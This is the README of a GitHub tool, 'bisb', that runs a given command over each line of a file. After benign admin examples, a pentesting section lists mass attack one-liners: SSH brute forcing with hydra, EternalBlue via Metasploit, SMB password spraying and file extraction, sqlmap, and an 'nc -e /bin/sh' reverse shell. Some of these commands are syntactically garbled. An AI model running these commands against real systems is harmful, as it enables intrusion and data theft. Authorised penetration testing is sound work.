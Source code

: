 # Batch-is-Better

![bisb Logo](https://github.com/GTekSD/Batch-is-Better/assets/55411358/efbe645c-8392-46b0-a52e-108c87e30f82)

**bisb (Batch is Better)** is a command-line tool designed to simplify batch processing tasks by executing commands listed in files. It enhances script management and execution, making batch operations more straightforward and efficient.

## Features

- **Execute Commands from Files**: Allows users to execute commands listed in text files.
- **Interactive Banner**: Colorful and informative banner for a visually appealing interface.
- **Customizable Examples**: Includes 15 unique examples demonstrating various use cases.
- **Usage Guidance**: Detailed usage instructions and examples provided with `-h` or `--help`.

## Installation

To install **bisb**, follow these steps:

1. **Download** the latest release from the [Releases page](https://github.com/GTekSD/Batch-is-Better/releases).
2. **Copy** the downloaded `bisb` script to `/usr/bin` to make it executable system-wide:
   ```bash
   sudo cp bisb /usr/bin/bisb
   sudo chmod +x /usr/bin/bisb
   ```

## Usage

To use **bisb**, follow these steps:

- Run `bisb` with your desired command and a filename containing the list of items to process:
  ```bash
  bisb "<command>" <filename.txt>
  ```

- For more information and examples, use the `-h` or `--help` flag:
  ```bash
  bisb -h
  ```

## Examples

Here are some examples of how to use **bisb**:

1. System Administration:
   ```bash
   bisb "sudo systemctl restart service" server_list.txt
   ```

2. Data Processing:
   ```bash
   bisb "python process_data.py" data_files.txt
   ```

3. Configuration Management:
   ```bash
   bisb "ansible-playbook deploy.yml" environments.txt
   ```

## Contributing

Contributions to **bisb** are welcome! Please feel free to [open an issue](https://github.com/GTekSD/Batch-is-Better/issues) or [submit a pull request](https://github.com/GTekSD/Batch-is-Better/pulls) for enhancements or bug fixes.




-----------------

# In Pentesting

To demonstrate how **bisb (Batch is Better)** can be highly useful in a pentesting scenario, here are 10 critical examples that simplify complex tasks:

### 1. **Automated Vulnerability Scanning**
```
$ bisb "nmap -sV --script vuln" target_list_with_ports.txt
```
- This command runs a vulnerability scanning on specific ports on multiple targets, this is the quickest way to complete a full scan.
- List.txt should be in this format:
  192.168.1.100 -p 8080
  192.168.1.200 -p 1433

### 2. **Brute Force Attack**
```
$ bisb "hydra -L usernames.txt -P passwords.txt ssh://192.168.1.100" servers.txt
```
- Automates brute force attacks on multiple SSH servers, saving time and effort.

### 3. **Automated Exploit Execution**
```
$ bisb "msfconsole -q -x 'use exploit/windows/smb/ms17_010_eternalblue; set RHOSTS' $line; run" targets.txt
```
- Automatically runs the EternalBlue exploit on a list of vulnerable targets.

### 4. **Mass Password Spraying**
```
$ bisb "crackmapexec smb $line -u users.txt -p password123" targets.txt
```
- Executes password spraying across multiple SMB servers, helping identify weak passwords.

### 5. **File Enumeration and Extraction**
```
$ bisb "smbclient //$line/shared -c 'prompt OFF; recurse ON; mget *'" smb_servers.txt
```
- Recursively downloads files from shared folders on multiple SMB servers.

### 6. **Batch Web Application Testing**
```
$ bisb "nikto -h $line" web_targets.txt
```
- Runs Nikto web server vulnerability scans on a list of web applications.

### 7. **Automated Directory Bruteforcing**
```
$ bisb "dirb http://$line /usr/share/wordlists/dirb/common.txt" web_targets.txt
```
- Uses Dirb to brute force directories on multiple web applications, revealing hidden paths.

### 8. **SQL Injection Testing**
```
$ bisb "sqlmap -u http://$line --batch" sql_targets.txt
```
- Automates SQL injection testing across various web applications.

### 9. **Network Reconnaissance**
```
$ bisb "netdiscover -i eth0 -r $line/24" subnets.txt
```
- Discovers live hosts within multiple subnets, crucial for network mapping.

### 10. **Automated Reverse Shell Deployment**
```
$ bisb "nc -e /bin/sh 192.168.1.200 4444" target_list.txt
```
- Establishes reverse shells on multiple targets for remote control.

### Summary
These examples show how **bisb (Batch is Better)** can automate repetitive and critical tasks during a pentest, making the process more efficient and less error-prone. It saves time, increases productivity, and ensures comprehensive coverage across multiple targets.


## License

This project is licensed under the MIT License - see the [LICENSE](LICENSE) file for details.

## Author

Developed with ❤️ by [Сухас Дхолз](https://gteksd.github.io/) for [GTekSD](https://github.com/GTekSD/).
